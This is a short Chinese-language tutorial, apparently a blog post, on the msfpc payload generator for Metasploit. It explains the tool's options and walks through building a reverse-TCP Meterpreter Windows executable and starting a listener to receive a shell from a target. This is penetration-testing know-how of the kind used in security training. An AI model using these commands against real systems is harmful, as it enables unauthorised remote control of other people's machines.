




# msfpc
## 简介
MSFvenom Payload Creator（msfpc）是一个基于MSFvenom的Payload生成器，旨在简化Payload的创建过程，使用户尽可能简单的创建payload
## 参数详解
```
msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
```
+ < type>：
  + APK
  + ASP
  + ASPX
  + Bash [.sh]
  + Java [.jsp]
  + Linux [.elf]
  + OSX [.macho]
  + Perl [.pl]
  + PHP
  + Powershell [.ps1]
  + Python [.py]
  + Tomcat [.war]
  + Windows [.exe // .dll]
+ <DOMAIN/IP>：默认IP菜单，除了IP地址，还允许输入eth0，lo，wan
+ < PORT>：默认443
+ <CMD/MSF>：默认MSF    
  + CMD：用cmd进行交互
  + MSF：用msf进行交互，功能较强
+ <BIND/REVERSE>：默认REVERSE
  + BIND：正向连接
  + REVESE：反向连接
+ <STAGED/STAGELESS>：默认STAGED
  + STAGED：将payload分块，使其更小，依赖Metasploit
  + STAGELESS：完整独立的payload，比STAGED稳定
+ <TCP/HTTP/HTTPS/FIND_PORT>：默认TCP
  + TCP：tcp连接，最兼容types，容易被ids检测
  + HTTP：http连接，限制协议端口访问，如80
  + HTTPS：https连接，限制协议端口访问，如443
  + FIND_PORT：尝试在所有端口寻找出路
+ <BATCH/LOOP>
  + BATCH：生成尽可能多的组合
  + LOOP：生成其中一种
+ < VERBOSE>：显示更多信息：type，size，md5和sha1
## 简单使用实例
1. 使用msfpc生成payload
```
msfpc windows eth0
```

  
2. 使用生成的rc监听(-q 跳过启动画面 -r 加载resources脚本)
```
msfconsole -q -r '/root/msf/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
```

  
3. 靶机执行exe后


<br/> 轻松写意获得靶机的shell
## 一点小插曲和个人评价
看完所有参数后，最好奇的是find_port参数，执行后却发现


Metaspolit不支持！！！
<br/>个人觉得msfpc对新手挺友好的，虽然缺少了msfvenom的编码功能，命令行参数也差不多，但胜在能自动生成rc文件，在侦听时非常方便！

